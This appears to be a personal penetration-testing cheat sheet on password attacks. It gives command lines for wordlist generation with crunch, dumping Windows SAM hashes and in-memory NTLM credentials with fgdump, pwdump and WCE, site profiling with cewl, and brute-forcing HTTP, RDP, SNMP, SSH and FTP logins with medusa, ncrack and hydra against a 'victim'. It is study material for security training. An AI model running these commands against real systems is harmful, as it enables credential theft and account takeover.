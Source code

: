 ## Password file generator

### crunch
##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
 #### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
 #### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

### Password Profiling
##### cewl
  ***cewl <victim_www_url> -d [num] -m [num] -w [file.txt]***
  
### Online password attacks

#### HTTP Brute force attack
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP Brute force attack
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP Brute force attack
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH Brute force attack
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP Brute force attack
- hyrda -L [user_file] -p [password] [victim_ip] ftp

### Usefull flag
-vV : verbose mode
-e nsr : login as password or login as password in reversed order etc
-t : threads

### Password Hash Attack
#### Hash identifier
  ***- hash-identifier ***
 usage: hash-identifier

#### John the ripper

### Pass the hash
